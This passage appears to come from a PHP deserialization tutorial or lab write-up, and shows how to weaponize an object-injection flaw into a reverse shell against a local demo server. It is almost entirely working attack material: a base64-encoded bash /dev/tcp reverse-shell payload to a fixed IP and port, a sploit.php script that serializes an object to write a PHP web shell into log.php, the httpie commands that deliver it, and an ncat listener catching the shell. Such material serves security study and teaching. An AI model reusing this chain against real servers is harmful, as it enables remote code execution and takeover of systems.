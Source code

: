 #### 2.8. Weaponizing it for reverse-shell

Payload:
```
# echo -n "/bin/bash -c '/bin/bash -i >& /dev/tcp/172.16.201.160/9191 0>&1'" | base64 | tr -d '\n' | php -R 'echo "exec(base64_decode(\"".$argn."\"));";' && echo
exec(base64_decode("L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjIwMS4xNjAvOTE5MSAwPiYxJw=="));
```

File: `sploit.php`
```
$log = new LogData(
    '<?=exec(base64_decode("L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjIwMS4xNjAvOTE5MSAwPiYxJw=="));',
    '../log.php'
);
print_r(base64_encode(serialize($log)));
```

Exploitation:
```
# payload=`http https://127.0.0.1:8443/demo/sploit.php --verify=no -b | awk 'NF'`
# http -f https://127.0.0.1:8443/demo/consume.php data=$payload --verify=no -b | awk 'NF'
LogData Object
(
    [data] => <?=exec(base64_decode("L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTcyLjE2LjIwMS4xNjAvOTE5MSAwPiYxJw=="));
    [file] => ../log.php
)
# http https://127.0.0.1:8443/demo/log.php --verify=no -b
```

Reverse shell:
```
# ncat -nvlp 9191
Ncat: Version 7.40 ( https://nmap.org/ncat )
Ncat: Listening on :::9191
Ncat: Listening on 0.0.0.0:9191
Ncat: Connection from 172.21.0.4.
Ncat: Connection from 172.21.0.4:60746.
bash: cannot set terminal process group (7): Not a tty
bash: no job control in this shell
bash: /dev/null/.bashrc: Not a directory
bash-4.4$ id
id
uid=1000(php-fpm) gid=1000(php-fpm) groups=1000(php-fpm)
bash-4.4$
```
